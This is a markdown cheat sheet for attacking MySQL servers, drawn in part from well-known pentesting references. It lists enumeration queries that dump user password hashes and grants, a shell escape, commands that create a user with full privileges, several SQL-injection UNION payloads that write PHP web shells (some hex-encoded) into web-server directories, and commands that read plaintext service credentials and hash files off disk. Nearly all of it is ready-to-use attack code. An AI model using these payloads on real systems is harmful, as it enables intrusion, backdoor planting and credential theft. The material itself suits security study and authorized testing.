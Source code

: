 # MySQL
MySQL is an open-source relational database management system (RDBMS) used to store, manage, and retrieve data.

## Ports
```
3306
33060
```

## Connection

```sh
# mysql-client
mysql -u <hostname> -u root
mysql -u <hostname> -u root@localhost
```

# Enumeration

```sql
-- Version
SELECT version();
SELECT @@version();

-- Get databases
SHOW databases;

-- User
SELECT user();

-- Get users, permissions and hahes
SELECT * FROM mysql.user;

-- Permission
SHOW GRANTS;
SHOW GRANTS FOR "root"@"localhost";
SHOW GRANTS FOR CURRENT_USER();

-- From DB
SELECT * FROM mysql.user WHERE user="root";

-- Get users with file_priv
SELECT user,file_priv FROM mysql.user WHERE file_priv="Y";

-- Get users with Super_priv
SELECT user,Super_priv FROM mysql.user WHERE Super_priv="Y";

-- Database Name
SELECT database(); 

-- List functions
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION";

-- @Functions not from sys. db
SELECT routine_name FROM information_schema.routines WHERE routine_type = "FUNCTION" AND routine_schema != "sys";

-- Get shell
\! sh
```



  

# Privilege Escalation

## Create User and Give Privileges

```sql
CREATE USER test identified BY "test";

GRANT SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by "mysql" WITH GRANT OPTION;
```


## Command Execution

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"

[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'

[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -

[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'


[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'

[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```


# Extracting MySQL Credentials From Files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the MySQL database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```


# References

- [https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
- [https://dev.mysql.com/doc/](https://dev.mysql.com/doc/)
- [ https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17](  https://learn.microsoft.com/en-us/sql/?view=sql-server-ver17)